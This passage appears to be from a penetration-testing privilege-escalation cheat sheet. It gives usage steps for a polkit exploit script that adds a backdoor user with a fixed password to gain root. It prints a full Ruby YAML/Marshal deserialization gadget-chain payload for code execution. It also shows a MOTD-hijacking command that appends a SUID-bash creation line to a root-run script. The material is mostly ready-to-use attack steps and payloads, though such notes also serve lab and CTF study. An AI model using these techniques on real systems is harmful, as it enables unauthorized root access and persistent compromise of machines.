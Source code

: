 * Must have `polkit` version 0.113 or later OR `0-105-26` (Debian fork of `polkit`
* Works with `Ubuntu 20.04` and `Centos 8`, `RHEL 8`, `Fedora 21`, `Debian Bullseye`

```
cat /etc/os-release
```

* Usually need to run the POC multiple times
* For exploitation dispite checks saying not vulnerable: `./polkit.sh -f=y`
* If run with no options, user `secnigma` will be added to `/etc/passwd` and the password for that user is `secnigmaftw`
* To get your root shell `su - secnigma`
* Enter password
* `sudo bash`
* Profit

Universal RCE deserialization gadget chain for Ruby 2.x.

* This works for both `YAML.load` and `Marshal.load`
* [https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
* See Ruby script using this syntax on a seperate local file that you cannot write to however if the first script is executing through cron or `sudo -l` permissions you can create another file with the same name that the origional is calling i.e. `dependencies.yml`
* Payload:

```
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

### MOTD Hijacking&#x20;

* Detection:
* Can see root processes like cron jobs without root permissions with `pspy`&#x20;

```
2023/04/06 18:00:01 CMD: UID=0     PID=1087   | /bin/cp /var/backups/.update-motd.d/00-header 
2023/04/06 18:00:01 CMD: UID=0     PID=1083   | /usr/sbin/CRON -f
```

* look for the `motd` to be owned by root but set to a group that we are in, can echo:

```
echo "cp /bin/bash /home/sysadmin/bash && chmod u+s /home/sysadmin/bash" >> 00-header
```

* now log out and re-ssh in to kick it off and then execute bash with `bash -p`

### Pkexec as SUID
